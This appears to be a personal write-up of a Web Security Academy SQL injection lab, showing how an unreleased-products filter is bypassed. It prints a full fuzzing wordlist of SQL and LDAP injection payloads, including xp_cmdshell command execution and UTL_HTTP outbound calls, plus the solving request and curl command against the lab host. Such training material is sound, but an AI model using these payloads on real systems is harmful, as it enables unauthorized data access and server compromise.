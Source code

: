 ```yaml
---
layout: default
---
```



## SQL Injection




### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.


![SQLI 1 intruder](../assets/images/sql1_intruder.png)

```
wordlists/wfuzz/Injections/SQL.txt 
'
"
#
-
--
'%20--
--';
'%20;
=%20'
=%20;
=%20--
\x23
\x27
\x3D%20\x3B'
\x3D%20\x27
\x27\x4F\x52 SELECT *
\x27\x6F\x72 SELECT *
'or%20select *
admin'--
<>"'%;)(&+
'%20or%20''='
'%20or%20'x'='x
"%20or%20"x"="x
')%20or%20('x'='x
0 or 1=1
' or 0=0 --
" or 0=0 --
or 0=0 --
' or 0=0 #
" or 0=0 #
or 0=0 #
' or 1=1--
" or 1=1--
' or '1'='1'--
"' or 1 --'"
or 1=1--
or%201=1
or%201=1 --
' or 1=1 or ''='
" or 1=1 or ""="
' or a=a--
" or "a"="a
') or ('a'='a
") or ("a"="a
hi" or "a"="a
hi" or 1=1 --
hi' or 1=1 --
hi' or 'a'='a
hi') or ('a'='a
hi") or ("a"="a
'hi' or 'x'='x';
@variable
,@variable
PRINT
PRINT @@variable
select
insert
as
or
procedure
limit
order by
asc
desc
delete
update
distinct
having
truncate
replace
like
handler
bfilename
' or username like '%
' or uname like '%
' or userid like '%
' or uid like '%
' or user like '%
exec xp
exec sp
'; exec master..xp_cmdshell
'; exec xp_regread
t'exec master..xp_cmdshell 'nslookup www.google.com'--
--sp_password
\x27UNION SELECT
' UNION SELECT
' UNION ALL SELECT
' or (EXISTS)
' (select top 1
'||UTL_HTTP.REQUEST
1;SELECT%20*
to_timestamp_tz
tz_offset
&lt;&gt;&quot;'%;)(&amp;+
'%20or%201=1
%27%20or%201=1
%20$(sleep%2050)
%20'sleep%2050'
char%4039%41%2b%40SELECT
&apos;%20OR
'sqlattempt1
(sqlattempt2)
|
%7C
*|
%2A%7C
*(|(mail=*))
%2A%28%7C%28mail%3D%2A%29%29
*(|(objectclass=*))
%2A%28%7C%28objectclass%3D%2A%29%29
(
%28
)
%29
&
%26
!
%21
' or 1=1 or ''='
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*

```

![SQLI 1 solution](../assets/images/sql1_solution.png)

```bash
GET /filter?category='%20or%20'1'%3d'1'--&released=1 HTTP/2
Host: 0af2009a0429088480dd269a0051000c.web-security-academy.net
Cookie: session=Z5YS67o84FgYjV1moTElybtQCZvccgXQ
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: es-ES,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009a0429088480dd269a0051000c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

curl command:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 0af2009a0429088480dd269a0051000c.web-security-academy.net' -H $'Sec-Ch-Ua: \"Chromium\";v=\"135\", \"Not-A.Brand\";v=\"8\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept-Language: es-ES,es;q=0.9' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: https://0af2009a0429088480dd269a0051000c.web-security-academy.net/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=0, i' \
    -b $'session=Z5YS67o84FgYjV1moTElybtQCZvccgXQ' \
    $'https://0af2009a0429088480dd269a0051000c.web-security-academy.net/filter?category=\'%20or%20\'1\'%3d\'1\'--&released=1'
```

***
[Index](../index.html)